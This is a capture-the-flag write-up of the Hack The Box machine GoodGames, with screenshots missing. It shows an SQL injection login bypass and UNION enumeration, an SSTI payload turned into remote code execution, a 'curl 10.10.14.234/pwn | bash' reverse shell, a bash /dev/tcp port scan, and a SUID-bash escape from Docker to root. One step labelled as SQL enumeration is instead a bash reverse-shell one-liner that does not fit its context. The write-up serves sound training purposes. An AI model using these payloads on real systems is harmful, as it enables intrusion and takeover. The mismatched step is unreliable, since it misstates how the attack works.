



# GoodGames

**Date**: 09/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/GoodGames](https://app.hackthebox.com/machines/GoodGames)

***

Let’s start with a ping to see if we have connection with the machine:

<figure><figcaption></figcaption></figure>

The ttl=63 indicates us that the target is probably a Linux machine.

Let’s scan all the TCP ports to see which ones are open:

<figure><figcaption></figcaption></figure>

Nmap discovered a single open TCP port, the 80 (http). Let’s see if we can obtain more info of this service:

<figure><figcaption></figcaption></figure>

We got interesting information. First of all, the version of the Apache (2.4.51). Also, the header may indicate that the server is running Werkzeug (2.0.2) and Python (3.9.2) sometimes it is vulnerable to Server Side Template Injection (SSTI). And the Service Info is telling us the domain being used: goodgames.htm. Maybe the server is applying Virtual Hosting, so we should add this domain to etc/hosts file.

<figure><figcaption></figcaption></figure>

Let’s use whatweb to try to obtain more info of the website hosted in the http service:

<figure><figcaption></figcaption></figure>

Nothing new, let’s see how the page looks:

<figure><figcaption></figcaption></figure>

I appreciate no difference between the website accessed via IP or domain, so I’m going to use the domain.

Let’s hear what Wappalizer has to say:

<figure><figcaption></figcaption></figure>

The server is using Flask (2.0.2) and jQuery (3.3.1) According to [this page](https://snyk.io/test/npm/jquery/3.3.1) this version of jQuery is vulnerable to XSS injection and prototype pollution. But I haven’t found a valid input to insert the XSS payload…

Let’s take a look to the web content:

The main page has post previews, news previews, image previews…

<figure><figcaption></figcaption></figure>

There is a directory called static with a subdirectory called images.

Let’s try to visit goodgames.htb/static/images and goodgames.htb/static

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

There is no directory listing.

Let’s see the Blog:

<figure><figcaption></figcaption></figure>

There are 14 pages of blog entries but only the first one works. The author of each post appears, so they may be valid users.

And the store link redirect us here:

<figure><figcaption></figcaption></figure>

There is also login form in the main page:

<figure><figcaption></figcaption></figure>

Let’s try to sign in

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And, let’s log in:

<figure><figcaption></figcaption></figure>

There is nothing I can do in this panel but changing my password…

<figure><figcaption></figcaption></figure>

And, if I try it, it breaks. Let’s intercept the petition using Burpsuite:

<figure><figcaption></figcaption></figure>

Nothing interesting I think.

Going back to the main page, I don’t really know if I was able to access to this post before login in, but now I have access:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And I can leave a reply! Let’s try some XSS!

<figure><figcaption></figcaption></figure>

Mmm… The server doesn’t allow me to post normal messages and it drops a server internal error.

With nothing in mind, let’s try to enumerate web directories:

First of all, let’s see if there is any other blog entry:

<figure><figcaption></figcaption></figure>

Nope

OK, let’s go back to the login page. Let’s see if it’s vulnerable to SQLi

<figure><figcaption></figcaption></figure>

Apparently it requires a valid email address… Let’s insert a valid email address here and intercept the petition with Burpsuite to try to manipulate the data sent:

<figure><figcaption></figcaption></figure>

Let’s substitute the email input for `admin' OR 1=1-- -`

<figure><figcaption></figcaption></figure>

And url-encode it:

<figure><figcaption></figcaption></figure>

Let’s forward the petition…

<figure><figcaption></figcaption></figure>

And done! we bypassed the login… Let’s try to see if we can enumerate the database. First of all, let’s intercept the login petition again and send it to the repeater:

<figure><figcaption></figcaption></figure>

Now, let’s try to guess the number of columns of the users table using `UNION SELECT`

<figure><figcaption></figcaption></figure>

The table has 4 columns, and the welcome message is printing the 4th one.

Let’s now discover the name of the database using `database()`

<figure><figcaption></figcaption></figure>

The database’s name is `main`

Let’s gather the list of tables of the database using `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'main'`

<figure><figcaption></figcaption></figure>

The tables are `blog`, `blog_comments` and `user`

Let’s see the columns of `user` table using: `group_concat(column_name) FROM information_schema.columns WHERE table_name = 'user'`

<figure><figcaption></figcaption></figure>

The columns of the user table are called `id`, `email`, `password` and `name`

Let’s enumerate it all using: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

<figure><figcaption></figcaption></figure>

There is only one entry, but looks like a hashed password.

<figure><figcaption></figcaption></figure>

Probably MD5. Let’s try to use rainbow tables to crack it, if it’s not in rainbow tables maybe we can try to crack it using John.

<figure><figcaption></figcaption></figure>

That’s a weak password hahaha. Let’s anotate it, I’m sure I’ll need it soon.

Let’s try to log to the website again, but now with the obtained credentials:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

So, now we are logged as an administrator.

<figure><figcaption></figcaption></figure>

This button was not there before… let’s check it.

<figure><figcaption></figcaption></figure>

It redirected us to a subdomain that I had to include in the /etc/hosts file. It shows up a login page. Let’s try to use the same credentials we used to log in as the admin user before:

<figure><figcaption></figcaption></figure>

Aaaand we are in… It has 3 tabs, but this one is interesting, as is the only one that seems to allows us to modify anything:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Let’s remember that this site uses flask… Maybe it is vulnerable to STTI?

<figure><figcaption></figcaption></figure>

Yeah! It is. Let’s try to read the `/ect/passwd` file using this SSTI payload `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`

<figure><figcaption></figcaption></figure>

So… we can convert SSTI to RCE using this payload: `{{config.__class__.__init__.__globals__['os'].popen('<your code>').read()}}`

Let’s try to deploy a Rev Shell using this! As we know that the target system uses python, let’s try to execute a python script. To make it easier, I have created a file in my computer called pwn and shared it via http.server:

<figure><figcaption></figcaption></figure>

If we execute the command `curl 10.10.14.234/pwn | bash` in the target machine, it should read the pwn file and send it to the bash to interpret it and establish a connection with my machine. Let’s see if it works:

`{{config.__class__.__init__.__globals__['os'].popen('curl 10.10.14.234/pwn | bash').read()}}`

<figure><figcaption></figcaption></figure>

Yeah! We got a Reverse Shell!

<figure><figcaption></figcaption></figure>

Uh… Dockerfile… Let’s check the IP to see if we are inside the target machine or inside a container…

<figure><figcaption></figcaption></figure>

Bad news, we are inside a container. Let’s see what we have here anyway.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Mmm… it looks like it is running a postgresql database in [localhost](http://localhost):5432 and the credentials are appseed:pass

<figure><figcaption></figcaption></figure>

Here we have an sqlite3 database file, interesting. Let’s check if there is anything in the home folder:

<figure><figcaption></figcaption></figure>

Yep, there is the user flag!

Ok, now we have to think how to escape the docker environment and jump to the target machine.

If we take a look to the permissions of the files inside augustus folder…

<figure><figcaption></figcaption></figure>

We can see that there are files that belong to “1000”. It may indicate that the user’s home directory is mounted inside the docker container… let’s check it with `mount`

<figure><figcaption></figcaption></figure>

We have seen before that our IP Address was `172.19.0.2` , as Docker usually assigns the first address available of the subnet, the host might be on `172.19.0.1`

<figure><figcaption></figcaption></figure>

I send a ping either to 172.19.0.3 and 172.19.0.1. First one did nothing, but the second one was received, so there is something in that IP that we should scan.

<figure><figcaption></figcaption></figure>

The machine has no nmap installed, so we can do the scan with bash:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

<figure><figcaption></figcaption></figure>

Port 22 is open and port 80 is open too. Port 22 is SSH so let’s try to connect using the credentials we have:

<figure><figcaption></figcaption></figure>

User admin didn’t work. How about augustus?

<figure><figcaption></figcaption></figure>

Yeah, it worked!

Let’s see how to escalate privileges:

<figure><figcaption></figcaption></figure>

No sudoers, not interesting SUIDs…

<figure><figcaption></figcaption></figure>

Nothing on crontab…

<figure><figcaption></figcaption></figure>

No capabilities… Out of ideas I’m going to enumerate with LinPeas…

Ok, Nothing useful in LinPeas…

How about copying /bin/bash in the home folder of augustus, exiting the ssh, changing the SUID and log into the target machine again via SSH to run bash as administrator? Let’s try it.

First of all, lets copy /bin/bash in the home folder:

<figure><figcaption></figcaption></figure>

Now, let’s exit the ssh and change the owner of the file and make it SUID:

<figure><figcaption></figcaption></figure>

Now, let’s login as augustus via ssh again:

<figure><figcaption></figcaption></figure>

And execute the bash binary with owner perms:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Done!
